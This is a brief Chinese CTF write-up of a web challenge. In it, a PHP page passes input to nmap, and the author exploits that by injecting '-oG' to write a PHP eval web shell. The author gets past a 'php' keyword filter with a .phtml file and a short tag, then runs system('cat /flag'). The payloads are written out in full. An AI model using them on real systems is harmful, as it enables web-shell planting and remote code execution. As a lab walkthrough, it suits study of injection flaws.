 ![[Pasted image 20221127120248.png]]

---
首页长这样

![[Pasted image 20221127120317.png]]

---
尝试判断是否可注入（废话，显然可以
```php
localhost' #
```

![[Pasted image 20221127121511.png]]

```php
' -oG shell.php <?php eval($_GET["cmd"]);?> #
```
> Hacker...

emmm，大意了

应该是把php过滤掉了

```php
' -oG shell.phtml <? eval($_GET["cmd"]);?> #
```
> Host maybe down

```php
/shell.phtml?cmd=system('cat /flag');
```
> \# Nmap 6.47 scan initiated Sun Nov 27 04:26:32 2022 as: nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/824ef -oG shell.phtml \ flag{b868b5bd-41f0-4933-97f5-930bd42b73a3}
> \#'
> \# Nmap done at Sun Nov 27 04:26:33 2022 -- 0 IP addresses (0 hosts up) scanned in 0.90 seconds

氵就完事儿了.jpg

#Web #RCE #PHP #绕过 #nmap